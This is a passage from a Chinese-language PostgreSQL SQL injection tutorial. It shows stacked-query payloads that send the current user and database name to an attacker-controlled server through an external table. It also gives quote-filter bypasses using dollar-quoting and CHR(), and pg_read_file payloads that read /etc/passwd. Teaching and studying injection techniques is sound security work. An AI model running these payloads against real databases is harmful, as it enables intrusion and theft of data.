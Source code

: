 
这样，我们就在目标数据库上创建了一个外部表，名为mytable，用于读取或写入我们的服务器的data.txt文件。我们还向这个表中插入了当前用户的信息。我们可以在我们的服务器上查看这个文件的内容，例如：

```bash
cat /tmp/data.txt
```



我们就可以看到目标数据库的当前用户的信息，例如：

```javascript
dbuser
```



通过这种方法，我们可以逐步获取数据库的结构和内容，例如，我们可以用`length()`和`substr()`函数，结合ASCII码，来获取数据库名、表名、字段名和字段内容。例如，我们可以输入以下语句：

```postgresql
id=1; insert into mytable select current_database()
```



这样，我们就可以在我们的服务器上查看目标数据库的当前数据库名。



# 0x04 绕过

#### 过滤单引号

**使用$符号**

SELECT $$test$$;与SELECT 'test';

 

如果连续的美元符号被阻止（$$），那么您也可以在postgreSQL中使用标签，方法是将标签名称放在$符号之间： SELECT $quote$test$quote$;与SELECT 'test';

 

**CHR()函数**

同时我们也可以在字符串拼接的时候采取CHR()函数:

SELECT CHR(65)||CHR(66)||CHR(67)||CHR(68)||CHR(69)||CHR(70)||CHR(71)||CHR(72);等效于SELECT 'ABCDEFGH';

 

注意：您不能同时使用'和$$ $quote$，因此，如果您需要转义以单引号开头的字符串，则将无法使用$$(即这种语句是无效的SELECT 'test$$;)

# 0x04 文件读取

#### pg_read_file

```postgresql
-- 注意: 在早期的 PostgreSQL 版本中,pg_read_file 不允许使用绝对路径
select pg_read_file('/etc/passwd');

-- 单引号被转义的情况下使用
select/**/PG_READ_FILE($$/etc/passwd$$)
```
